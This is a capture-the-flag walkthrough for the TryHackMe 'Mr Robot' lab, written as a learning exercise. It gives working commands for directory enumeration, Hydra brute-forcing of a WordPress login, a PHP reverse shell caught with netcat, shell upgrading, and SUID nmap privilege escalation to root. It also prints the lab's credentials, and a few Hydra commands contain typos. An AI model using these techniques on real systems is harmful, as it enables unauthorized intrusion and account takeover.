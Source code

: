 <h1>Mr Robot :fsociety: </h1>

![task 2 screenshot](screenshots/MRtask2.png)

<h2>What is key 1?</h1>

Hint: Robots

This hint should take anyone that has done a few ctfs somewhere fast,
it is a suggestion to go check the robots.txt file of the site:

If you haven' yet, go to browser an put the machine ip address, then
after spending some unfruitful time watching Mr. Robot advertisements(/s)
you can go ahead and check out the robots.txt of the site:

`MACHINE_IP/robots.txt`

Below is a screenshot of robots.txt:

![robots screenshot](screenshots/robots.png)

As you can see there are two interesting pieces of information.
The *key-1-of-3.txt* and *fsocity.dic* pages have been placed here to keep crawlers
from indexing them.

So,  lets check them out.

First, *key-1-of-3.txt* :

![key 1 screenshot](screenshots/k1of3.png)

And we got our first key. :sunglasses:

Then *fsocity.dic*,

![fsoc screenshot](screenshots/fsoc.png)

Depending on what browser you are using, you will be able to see the
words in this site or be prompted to download the file immediately upon
visiting the page. Save the file (which seems to be a dictionary) and continue on.

<h2>What is key 2?</h1>

Hint: White colored font

For this answer, we will try to identify the rest of the flags following the
methodology provided in the [official walkthrough](https://www.youtube.com/watch?v=BQ4xeeNAbaw) by DarkSec for TryHackMe.

The next thing to do then, is run gobuster on the site so that we can identify
additional subdomains. This will help us locate a good place to put the
*fsocity.dic* file to use.

You can get gobuster here: https://github.com/OJ/gobuster

Then run the following command.

`gobuster -u 'http://MACHINE_IP' -w any_directory_wordlist.txt -o gobusteroutput.txt `

Once gobuster is done finding subdomains, we can check which ones have a 200 response:

`cat gobusteroutput.txt | grep 200`

![grep 200 screenshot](grep200.png)

At this point, focus shifts towards the */wp-login* page, where we launch a username and password
brute force attack using our fsocity.dic wordlist and Hydra (https://github.com/vanhauser-thc/thc-hydra)

The command below was used to brute-force the username(USER = Elliot):

`hydra -L fsocity.dic -p test MACHINE_IP http-post-form "/wp-login.php:log^USER^&pwd^PASS^:Invalid username" -V`

Once we have the username, we can go ahead and use the same wordlist to brute-force the
password for the newly found username. (PASS= ER28-0652)

`hydra -l Elliot -P fsocity.dic txt MACHINE_IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username" -V`

This will let us access the wordpress account for Elliot and look around.

In this case, Elliot's ability to use the edit panel from his account enable the use of php scripts
that will generate a reverses shell which can be used to gain root access.

To get the shell we start listening on port 53 with netcat:

`sudo rlwrap nc -lvnp 53`

then get a reverse shell from wherever you want, the one from the the walkthrough was this
one (https://github.com/pentestmonkey/php-reverse-shell). By modifying a php file for a certain them with
the reverse php shell we get the connection. Load that file on the browser, in this case the URL:

`http://10.10.62.195/wp-content/themes/twentyfifteen/archive.php`

We now go back to the terminal in which we are listening for incoming connections on port 53
And we have a shell

![shell](screenshots/whoami.png)

Check for users on the shell:  `ls /home` , then check their home directories for anything
useful. In this case the second key is in  robot user's home dir, but we cant read it until
we escalate priviledges. There is, however, a backup of robot's password stored and legible.
So we read it

![users](screenshots/lsa.png)

Then we use crackstation to check the hash, and the password is: `abcdefghijklmnopqrstuvwxyz`\

To login as robot using this shell, first we need to make it interactive, this is done with the
following command and the result can be seen in the screenshot below:

`python -c 'import pty;pty.spawn("/bin/bash")'`

![interactive shell](screenshots/interactive.png)

Once logged in as robot we can read the second key and escalate privileges to root.
command: `find / -perm +6000 2>/dev/null | grep '/bin/' ` will find binaries with the root binary .
 The resulting binaries are shown below:

![binaries](screenshots/binaries.png)

The `/usr/local/bin/nmap` binary can be used to gain root access.
Additional information can be found here: https://gtfobins.github.io/gtfobins/nmap/

We run the binary and the reccomended commands to escalate privilege:
`sudo nmap --interactive
nmap> !sh`

And we are now root... that's it

![key 3](key3.png)
